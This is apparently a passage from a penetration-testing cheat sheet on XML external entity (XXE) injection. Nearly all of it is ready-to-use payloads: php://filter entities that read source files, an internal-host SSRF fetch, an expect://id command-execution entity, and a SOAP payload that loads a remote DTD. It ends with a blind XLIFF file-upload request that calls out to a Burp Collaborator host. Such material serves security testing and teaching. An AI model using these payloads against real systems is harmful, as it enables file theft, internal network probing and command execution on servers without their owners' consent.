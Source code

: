**Extract** _**index.php**_

```markup
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

#### **Extract external resource**

```markup
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```

### Remote code execution

**If PHP "expect" module is loaded**

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

## **SOAP - XEE**

```markup
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## XLIFF - XXE

This section was taken from [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)  
According to the [Wikipedia](https://en.wikipedia.org/wiki/XLIFF):

> XLIFF \(XML Localization Interchange File Format\) is an XML-based bitext format created to standardize the way localizable data are passed between and among tools during a localization process and a common format for CAT tool exchange.

### Blind request

```markup
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
